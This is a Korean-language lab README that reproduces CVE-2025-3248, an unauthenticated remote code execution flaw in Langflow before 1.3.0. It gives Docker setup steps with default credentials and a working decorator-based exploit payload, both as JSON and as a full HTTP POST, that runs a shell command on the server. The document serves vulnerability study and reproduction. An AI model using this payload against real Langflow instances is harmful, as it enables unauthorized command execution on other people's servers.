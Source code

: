 # Langflow `validate/code` API 인증 없이 원격 코드 실행 (CVE-2025-3248)
> 화이트햇 스쿨 3기 - 이찬휘 ([`@iChanee`](https://github.com/iChanee))

<br>
<br>

[中文版本(Chinese version)](README.zh-cn.md) | [English version](README.en.md)

---

Langflow는 에이전트 기반 AI 워크플로우를 구축할 수 있는 인기 있는 오픈소스 도구로, Python 기반의 웹 인터페이스를 통해 시각적으로 AI 기반 에이전트 및 파이프라인을 구성할 수 있습니다.

Langflow 1.3.0 이전 버전에는 치명적인 인증되지 않은 원격 코드 실행 취약점(CVE-2025-3248)이 존재합니다.  
취약한 엔드포인트(`/api/v1/validate/code`)는 사용자가 제출한 Python 코드를 `ast` 모듈로 파싱한 후 `exec`를 이용해 함수 정의를 실행합니다.  
하지만 Python의 decorator 및 기본 인자(default argument)는 함수 정의 시점에 함께 실행되므로, 이를 통해 임의의 코드를 삽입해 실행할 수 있습니다.

- **취약점 종류**: `Pre-auth Remote Code Execution`  
- **CVE ID**: `CVE-2025-3248`  
- **영향 버전**: `Langflow < 1.3.0`

공격자는 악의적으로 조작된 함수 정의를 보내며, decorator 또는 기본 인자를 이용해 코드를 주입함으로써 서버 권한으로 명령어를 실행할 수 있습니다.

## 참고 자료

- [horizon3.ai 분석 보고서](https://horizon3.ai/attack-research/disclosures/unsafe-at-any-speed-abusing-python-exec-for-unauth-rce-in-langflow-ai/)
- [Langflow 1.3.0 릴리즈](https://github.com/langflow-ai/langflow/releases/tag/1.3.0)
- [관련 Pull Request](https://github.com/langflow-ai/langflow/pull/6911)

---

<br>

## 환경 구성
### 사용 기술 및 환경

- Docker
- docker-compose
- Langflow 1.2.0 이미지
- Burp Suite (PoC 전송용)


### 실행 명령어

```bash
docker compose up -d
```
![](docker_up.jpg)

서버가 시작되면, Langflow 웹 인터페이스는 http://your-ip:7860 에서 접근할 수 있습니다.
기본 로그인 자격 증명은 administrator:vulhub 입니다.

<br>

## 환경 실행 후 Langflow 인터페이스 확인
### Langflow 로그인 화면

![Langflow 로그인](Langflow_interface_login.jpg)


### Langflow 프로젝트 화면

![Langflow 프로젝트](Langflow_interface_main.jpg)


서버가 시작되면, Langflow 웹 인터페이스는 `http://your-ip:7860` 에서 접근할 수 있습니다.  
기본 로그인 자격 증명은 `administrator:vulhub` 입니다.

<br>

## 취약점 재현
### 요청 정보

- URL: http://localhost:7860/api/v1/validate/code
- Method: POST
- Content-Type: application/json


### 공격 Payload
``` json
{
  "code": "@exec(\"raise Exception(__import__('subprocess').check_output(['id']))\")\ndef foo():\n  pass"
}
```

해당 취약점을 재현하려면 `/api/v1/validate/code` 엔드포인트에 악의적으로 조작된 Python 함수 정의를 담은 POST 요청을 전송하면 됩니다.  
예를 들어, 아래 payload는 decorator를 통해 서버에서 `id` 명령어를 실행합니다:

```
POST /api/v1/validate/code HTTP/1.1
Host: your-ip:7860
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 105

{"code": "@exec(\"raise Exception(__import__('subprocess').check_output(['id']))\")\ndef foo():\n  pass"}
```

<br>

## Burp Suite를 이용해 위 요청을 보낸 결과: 
![](burp_poc.jpg)